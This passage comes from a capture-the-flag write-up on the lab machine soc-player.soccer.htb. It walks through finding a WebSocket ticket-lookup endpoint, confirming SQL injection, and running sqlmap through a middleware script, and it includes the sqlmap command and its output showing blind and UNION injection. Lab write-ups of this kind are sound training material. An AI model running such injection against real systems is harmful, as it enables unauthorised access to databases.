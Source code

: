 We can see that there is also a config file for the subdomain `soc-player.soccer.htb` so we add that to our hosts fine and see something familiar but slightly different:

![Screenshot_from_2023-01-20_16-24-51.png]({{site.baseurl}}/Images/Screenshot_from_2023-01-20_16-24-51.png)

It’s almost the same website, but there are a couple of new menu items with Match, Login and Signup.

Starting at Signup, you can sign up with any information you like, there is no account confirmation and it’s that easy to create an account.

![Untitled3.png]({{site.baseurl}}/Images/Untitled3.png)

While we are manually using the website, we have Burp running in the background of course as well as `gobuster` enumerating. We captured the login and signup requests to send to `sqlmap` and `hydra` but there was nothing of use there.

After logging in, you are taken to a ticket page with a ticket number and a message telling us not to forget it! Sounds important.

![Screenshot_from_2023-01-20_16-26-26.png]({{site.baseurl}}/Images/Screenshot_from_2023-01-20_16-26-26.png)

There is an input box, which after entering random text, looks like it’s trying to perform a ticket lookup.

![Untitled4.png]({{site.baseurl}}/Images/Untitled4.png)

But we don’t see a POST request in our burp proxy history… Burp has intercepted a WebSocket request though:

![Untitled5.png]({{site.baseurl}}/Images/Untitled5.png)

Messing around with the Burp’s repeater it appears to perform an ‘is numeric’ check before anything else, leading the input with text always returns a not found response, but we find that it may be vulnerable to SQL Injection by sending a fairly standard PoC starting with any number:

![Untitled7.png]({{site.baseurl}}/Images/Untitled7.png)

The next logical step is to try and automate the exploitation of this finding with `SQLMap`.

`SQLMap` doesn’t support WebSockets by default:

```jsx
[CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality
```

We actually performed the exploit by using a python middleware script documented by [rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html).

Setting up the middleware and running our saved request through SQLMap confirmed that there is a blind UNION injection vulnerability in the application:

```jsx
sqlmap -u "http://localhost:8081/?id=1" --batch 
...
[17:15:20] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[17:15:21] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:15:33] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[17:15:44] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:15:44] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:15:52] [INFO] target URL appears to be UNION injectable with 3 columns
```
